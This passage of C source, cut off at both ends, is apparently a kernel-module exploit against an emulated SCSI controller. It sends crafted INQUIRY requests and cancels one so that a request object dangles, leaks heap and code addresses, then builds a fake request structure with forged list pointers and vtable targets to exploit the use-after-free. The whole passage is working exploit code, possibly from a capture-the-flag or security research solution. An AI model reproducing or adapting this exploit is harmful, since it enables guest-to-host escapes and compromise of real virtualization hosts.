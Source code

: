 ```c
            }
            write4(4, c);
            if (read4(0x14))
                break;
        }
        if (c == 0x100) {
            memset(out, 0xff, nbytes);
            return;
        }
        out[byte] = c;
    }
}
void getleaks(struct SCSIRequest** cur_req, u64* text) {
    u64 leaks[2];
    leakbytes(sizeof(leaks), leaks);
    *cur_req = (struct SCSIRequest*)leaks[0];
    *text = leaks[1]-0x50915d;
}

void exploit(void) {
    u64 text;
    u8* reply;
    struct req_head* req;
    struct SCSIRequest* pl, *cur_req;
    u64 uaf_sz = 0x1f8; // sizeof(SCSIDiskReq) just freed

    printk(KERN_INFO "[+] starting exploit...\n");

    req = kzalloc(sizeof(struct req_head)+6, GFP_KERNEL);
    req->buf_len = 6; // INQUIRY has length 6
    req->data[0] = 0x12; // INQUIRY request
    req->data[1] = 0x40; // data[1] and data[2] make it so scsi_disk_emulate_inquiry
    req->data[2] = 0;    // (called from scsi_disk_emulate_command) doesnt fail and return -1
    req->data[3] = 0x17; // xfer is 16bit from data[3:4], make this 0x1734
    req->data[4] = 0x34; // (determines how much data transferred/malloced)
    req->data[5] = 0x51; // last byte is...?? doesnt seem used no idea dont care
    auth();
    send_req(req); // first request completes
    send_req(req); // this one doesn't complete

    req->target_bus = 17; // no matching device
    send_req(req); // cancels previous but doesnt get enqueued, cur_req dangling to previous request

    // process reply to free dma buffer so we can add cmd data
    reply = kmalloc(0x1734, GFP_KERNEL);
    get_reply(reply);
    kfree(reply);

    getleaks(&cur_req, &text); // so we know where vtables and stuff are
    printk(KERN_INFO "[+] TEXT: 0x%llx\n", text);
    printk(KERN_INFO "[+] cur_req: 0x%llx\n", (u64)cur_req);

    pl = kzalloc(uaf_sz, GFP_KERNEL);
    pl->dev = cur_req;
    pl->enqueued = 1;
    pl->io_canceled = 0;
    pl->refcount = 51;
    pl->tqe_next = cur_req;
    pl->tqe_prev = &cur_req->tqe_next;
    pl->aiocb = 0;
    pl->bus = (u64)&cur_req->info-0x70; // so bus->info is info
    pl->info = &cur_req->cancel-0x28; // so bus->info->cancel is cancel
```
